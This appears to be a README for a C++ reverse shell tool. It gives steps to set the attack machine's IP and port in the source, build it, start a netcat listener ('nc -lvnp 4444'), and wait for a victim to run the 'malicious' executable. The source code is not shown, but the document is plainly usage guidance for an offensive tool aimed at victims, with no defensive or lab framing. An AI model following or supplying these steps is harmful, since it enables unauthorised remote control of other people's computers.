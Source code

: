 # Reverse Shell

## Usage

### 1. Replace IP and port

Edit `ReverseShell.cpp` to replace the `ip` and `port` with your attack machine.  
Then build it.

### 2. Start Listener

In our attack machine, start listeenr:

```sh
nc -lvnp 4444
```

### 3. Execute ReverseShell

When a victim executes our malicious `ReverseShell` executable, we can receive a reverse connection.